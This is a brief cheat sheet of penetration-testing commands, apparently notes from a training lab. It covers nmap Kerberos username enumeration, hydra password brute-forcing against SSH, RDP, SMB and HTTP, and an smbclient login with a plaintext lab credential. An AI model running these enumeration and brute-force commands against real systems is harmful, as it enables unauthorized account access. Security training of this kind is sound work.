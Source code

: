- Find Kerberos usernames
`  nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='MEDTECH.COM' `

- SSH/RDP/SMB
` hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt -s 2222 192.168.50.201 ssh/rdp/smb `

` smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234 `

  - HTTP
` hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.50.20 http-get /webpage/ `